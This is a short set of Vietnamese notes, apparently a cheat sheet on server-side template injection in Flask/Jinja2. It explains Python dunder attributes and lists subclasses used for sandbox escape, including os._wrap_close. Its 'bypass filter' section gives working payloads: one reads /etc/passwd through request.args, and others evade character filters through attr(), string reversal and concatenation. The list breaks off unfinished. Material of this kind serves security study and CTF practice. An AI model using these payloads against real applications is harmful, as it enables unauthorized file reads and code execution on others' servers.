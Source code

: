 * __class__ trả về lớp của đối tượng hiện tại.
* __bases__ cho phép truy cập tới lớp cha của đối tượng hiện tại.
* __subclasses__() trả về danh sách các lớp con của đối tượng hiện tại.
* __init__ là phương thức khởi tạo lớp.
* __globals__ trả về tất cả module, phương thức, biến có thể sử dụng.


_frozen_importlib._ModuleLock
_frozen_importlib._DummyModuleLock
_frozen_importlib._ModuleLockManager
_frozen_importlib._installed_safely
_frozen_importlib.ModuleSpec
_frozen_importlib_external.FileLoader
_frozen_importlib_external._NamespacePath
_frozen_importlib_external._NamespaceLoader
_frozen_importlib_external.FileFinder
codecs.IncrementalEncoder
codecs.IncrementalDecoder
codecs.StreamReaderWriter
codecs.StreamRecoder
os._wrap_close
_sitebuiltins._Printer
types.DynamicClassAttribute
types._GeneratorWrapper
warnings.WarningMessage
warnings.catch_warnings
contextlib._GeneratorContextManagerBase
contextlib._BaseExitStack

## bypass filter

* Sử dụng request.args === request.values
request.args là một đối tượng trong framework Flask của Python, chứa tất cả các đối số được truyền từ URL vào ứng dụng Flask.
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read()}}&path=/etc/passwd
* Sử dụng attr()
Có thể kết hợp | và hàm attr() để bypass các ký tự bị filter như .. Ví dụ:
()|attr('__class__')
* Kỹ thuật đảo ngược chuỗi
{{()['__ssalc__'[::-1]]}}
* Kỹ thuật ghép chuỗi
()['__cla'+'ss__']
* Sử dụng hàm lower()
* Sử dụng hàm pop()
* 
